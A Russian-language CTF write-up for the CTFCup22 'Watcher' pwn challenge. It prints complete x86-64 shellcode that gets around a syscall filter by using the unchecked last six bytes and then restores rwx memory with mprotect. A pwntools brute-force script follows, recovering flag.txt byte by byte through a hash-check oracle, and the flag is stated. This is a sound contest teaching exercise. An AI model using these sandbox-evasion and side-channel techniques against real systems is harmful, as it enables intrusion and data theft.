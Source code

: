 # Watcher

**Category:** Pwn

Решение разработчиков и исходники [тут](https://github.com/acisoru/ctfcup22-quals/blob/main/tasks/pwn/watcher/README.md)

# Решение

[Программа](https://github.com/acisoru/ctfcup22-quals/blob/main/tasks/pwn/watcher/dev/main.c) делает следующее:

1. Выделяет rwx память.
2. Читает в нее шеллкод. (без инструкций syscall, sysenter, int 80h).
3. Проверяет, чтоб в нем не было инструкций syscall, sysenter, int 80h, но не проверяет последние 6 байт.
4. Менят права выделенной память только на чтение и исполнение.
5. Получает sha256 хэш от шеллкода.
6. Создает дочерний процесс, который выполняет шеллкод. Родительский процесс пересчитывает хэш, и убивает дочерний процесс, если шеллкод был изменен.

[Шеллкод](/CTFCup22quals/watcher/solution/shellcode.asm):
```assembly
BITS 64

; nasm shellcode.asm -o s.bin

start:
	lea r15,[rel start+0x2000-0x100-6] ; adress of the syscall; jmp r12

; mprotect
	mov rax,10
	lea rdi,[rel start-6] ; start of the rx mapping
	mov rsi,0x2000
	mov rdx,7 ; rwx

	lea r12,[rel mprotect_return]
	jmp r15


mprotect_return:
; open
	mov rax,2
	lea rdi,[rel filename]
	mov rsi,0
	mov rdx, 0x1c0

	lea r12,[rel open_return]
	jmp r15


open_return:
; read
	mov rax,0
	mov rdi,0
	mov rdx,5 ; amount of bytes to read into the flag_buf (first 4 bytes are known "CUP{")
	lea rsi,[rel flag_buf]
	
	lea r12,[rel read_return]
	jmp r15


read_return:
	nop
	nop
	nop


filename:
	db 'flag.txt',0


flag_buf:
	db '#!@'

```

Шеллкод вызвыает `mprotect`, делая память снова rwx, и читает `flag.txt` в `flag_buf`(кол-во читаемых байт можно менять на 33 строчке). Если в `flag_buf` содержались такие же байты, что и в файле то хэш не изменится. Таким образом, можно перебирать по одному байту флага.

[Сплойт](/CTFCup22quals/watcher/solution/splo.py):

```Python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 0 --port 31337 watcher
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('watcher')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '0'
port = int(args.PORT or 31337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''

b *(0x0000555555554000+0x14af)
set follow-fork-mode child


'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'.'

import string
import time

# CUP{0H_h1_M4rk!}

flag='CUP{'
tail=asm('syscall; jmp r12')

print('Looking for {}th character'.format(len(flag)+1))


last_found='' # !!! check found character several times during remote bruteforcing. Sometimes a server doesn't return "{-} Invalid hashes!" 

charset = string.printable if not last_found else string.printable[string.printable.index(last_found):]
for ch in charset:
    
    
    sc=open('s.bin','rb').read()[:-3] # strip #!@
    sc+=(flag+ch).encode()
    
    print(hexdump(sc))
    
    sc=sc.ljust(0x2000-0x100-6,b'\x90')
    sc+=tail
    


    io=start()
    io.recvuntil('{?} Enter your x86-64 code: ')
    io.send(sc)
    
    if not io.recvuntil('{-} Invalid hashes!\n',timeout=5):
        print('\n----------\n[*] Found next character:',ch,'\n----------\n')
        io.close()
        break
    else:
        io.close()
        




```
Флаг: `CUP{0H_h1_M4rk!}`